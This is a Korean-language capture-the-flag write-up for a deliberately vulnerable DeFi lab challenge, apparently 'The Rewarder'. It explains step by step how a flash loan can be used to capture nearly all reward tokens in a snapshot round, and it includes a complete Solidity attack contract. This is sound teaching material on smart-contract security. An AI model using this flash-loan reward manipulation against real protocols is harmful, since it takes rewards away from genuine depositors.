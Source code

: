 ### 익스플로잇
일단 문제 풀이 조건에서 `rewarderPool`이 3라운드에 진입해야 하기 때문에 익스플로잇 단계에서 5일이 경과해야 함을 알 수 있다.
물론 실제로 5일을 기다릴 수 없기 때문에 컨트랙트 셋업 단계에서 사용됐던 Hardhat 함수를 사용한다.

attacker는 `liquidity token`을 가지고 있지 않기 때문에 `flash loan`을 이용해야 함을 알 수 있다. 또한 `flash loan` 서비스를 이용하기 위해서는 attacker가 컨트랙트를 작성해야 한다.

4명의 사용자는 `reward token`을 굉장히 조금 받는데 비해 attacker는 많은 `reward token`을 받아야 한다.
앞서 `reward token`의 개수는 `account token`의 총 발행량 대비 `msg.sender`가 가지고 있는 `account token`의 비율이기 때문에 가장 많이 받을 수 있는 `reward token`은 100개이다. 즉, 문제에서 attacker가 소유한 `reward token`의 양이 100개에 가까워야 한다는 조건은 attacker가 대부분의 `account token`을 소유해야함을 의미한다.
또한 `account token`은 `liquidity token`에 대해 1:1 비율로 지급되기 때문에 `rewaderPool`에서 사용자가 공급한 liquidity의 비율이 매우 높아야 한다.

위 사실을 종합하면 아래와 같은 익스플로잇 시나리오를 생각해볼 수 있다.

1. 먼저 문제 셋업 단계에서 강제로 5일이 경과되게 한다. `rewarderPool`은 3 라운드에 진입한다.
2. attacker가 익스플로잇 컨트랙트를 배포하여 `flash loan` 서비스를 호출한다. 이때, `flashloanerPool`이 가진 모든 토큰을 대출한다.
3. 익스플로잇 컨트랙트는 빌린 `liquidity token`을 모두 `rewarderPool`에 deposit한다. 이때, 예치한 `liquidity token`의 수 만큼 `account token`을 받는다. 다른 4명의 사용자는 각자 `liquidity token`을 100개씩 예치했기 때문에 pool 내에서 attacker(정확히는 익스플로잇 컨트랙트)가 차지하는 비율이 엄청나게 높아진다. 이미 5일이 경과했기 때문에 `deposit()` 함수가 실행되는 중 `distributeRewards()` 함수가 호출되어 익스플로잇 컨트랙트에 100개에 가까운 `reward token`이 지급된다.
4. 익스플로잇 컨트랙트는 예치했던 `liquidity token`을 다시 출금해서 `flashloanerPool`로 반환한다.
5. attacker는 익스플로잇 컨트랙트가 가진 `reward token`을 가져온다.

위 시나리오를 구현한 익스플로잇 컨트랙트는 다음과 같다.
~~~
contract RewarderAttackContract {
    DamnValuableToken public liquidityToken;
    TheRewarderPool public rewarderPool;
    FlashLoanerPool public flashLoan;
    RewardToken public rewardToken;

    constructor(
        address liquidityTokenAddress, 
        address rewarderPoolAddress,
        address flashLoanPoolAddress,
        address rewardTokenAddress) {
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
        rewarderPool = TheRewarderPool(rewarderPoolAddress);
        flashLoan = FlashLoanerPool(flashLoanPoolAddress);
        rewardToken = RewardToken(rewardTokenAddress);
    }

    function receiveFlashLoan(uint256 amount) public {
        liquidityToken.approve(address(rewarderPool), amount);

        rewarderPool.deposit(amount);

        rewarderPool.withdraw(amount);

        liquidityToken.transfer(address(flashLoan), amount);
    }

    function runAttack(uint256 amount) public {
        flashLoan.flashLoan(amount);

        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }
}
~~~
